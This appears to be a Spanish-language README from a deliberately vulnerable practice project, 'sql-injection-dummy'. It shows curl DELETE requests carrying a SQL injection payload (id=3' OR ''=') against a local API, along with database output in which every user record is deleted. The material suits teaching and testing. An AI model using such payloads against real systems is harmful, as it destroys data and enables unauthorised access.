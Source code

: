 
Esta vulnerabilidad de esta APi se explota con los siguientes payloads:
        curl -X DELETE "http://localhost:9090/vulnerable/users?id=3%27%20OR%20%27%27=%27"  SI FUNCIONO
        curl -X DELETE localhost:9090/vulnerable/users?id=3%27%20OR%20%27%27=%27  SI FUNCIONO

Se puede corroborar:
root@pho3nix:/home/diegoall/Projects/sql-injection-dummy# curl -X DELETE "http://localhost:9090/vulnerable/users?id=3%27%20OR%20%27%27=%27"
{"error":false,"message":"User deleted correctly"}

Con esta consulta se eliminan todos los registros de la base de datos:
sqli=# select * from users;
 id |        email         | first_name | last_name |    address     |                           password                           | user_active |         created_at         |         updated_at         
----+----------------------+------------+-----------+----------------+--------------------------------------------------------------+-------------+----------------------------+----------------------------
  1 | usuario1@example.com | Juan       | Pérez     | Calle 123      | $2a$12$IjOgt/06hlNF13IOsrb8veJemUeSDB.7X27UtSubDbjBgXuL.j5ci |           1 | 2025-06-18 01:24:43.471022 | 2025-06-18 01:24:43.471022
  2 | usuario2@example.com | María      | Gómez     | Avenida 456    | $2a$12$xzfjUjBa06RwrNRu.wb.M.8bWJMc2cI9GZObV9495ypXRbfjNUyPS |           1 | 2025-06-18 01:24:43.471022 | 2025-06-18 01:24:43.471022
  3 | usuario3@example.com | Luis       | Martínez  | Calle 789      | $2a$12$1HgyDgcSZuZQDkKbEN6elug3P5Z62Rjrrf/YQdDEBiJ3sSuxcqpWW |           1 | 2025-06-18 01:24:43.471022 | 2025-06-18 01:24:43.471022
  4 | usuario4@example.com | Ana        | Rodríguez | Avenida 101112 | $2a$12$IjOgt/06hlNF13IOsrb8veJemUeSDB.7X27UtSubDbjBgXuL.j5ci |           1 | 2025-06-18 01:24:43.471022 | 2025-06-18 01:24:43.471022
  5 | usuario5@example.com | Pedro      | López     | Calle 131415   | $2a$12$xzfjUjBa06RwrNRu.wb.M.8bWJMc2cI9GZObV9495ypXRbfjNUyPS |           1 | 2025-06-18 01:24:43.471022 | 2025-06-18 01:24:43.471022
(5 rows)

sqli=# select * from users;
 id | email | first_name | last_name | address | password | user_active | created_at | updated_at 
----+-------+------------+-----------+---------+----------+-------------+------------+------------
(0 rows)

Aca esta la definicion:
sqli=# \d users
                                         Table "public.users"
   Column    |            Type             | Collation | Nullable |              Default              
-------------+-----------------------------+-----------+----------+-----------------------------------
 id          | integer                     |           | not null | nextval('users_id_seq'::regclass)
 email       | character varying(255)      |           | not null | 
 first_name  | character varying(255)      |           | not null | 
 last_name   | character varying(255)      |           | not null | 
 address     | character varying(255)      |           | not null | 
 password    | character varying(60)       |           | not null | 
 user_active | integer                     |           | not null | 0
 created_at  | timestamp without time zone |           | not null | now()
 updated_at  | timestamp without time zone |           | not null | now()
